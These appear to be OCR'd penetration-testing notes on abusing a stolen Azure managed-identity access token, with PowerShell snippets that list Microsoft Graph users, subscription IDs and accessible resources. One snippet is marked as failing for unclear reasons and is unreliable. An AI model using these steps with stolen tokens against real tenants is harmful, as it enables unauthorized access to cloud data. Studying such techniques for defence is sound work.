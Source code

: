 #### Get an access token for MS Graph. For example, list all the users

```powershell
$Token = 'eyJ0eX..'
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value 
```

### Abusing tokens

#### Check the resources available to the managed identity

Throws an error and nikil is unsure why

```powershell
$token = 'eyJ0eX...'

Connect-AzAccount -AccessToken $token -AccountId <clientID> Get-AzResource
```

#### Use the Azure REST API to get the subscription id

```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value
```

#### List all the resources available by the managed identity to the app service

```powershell
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value
```
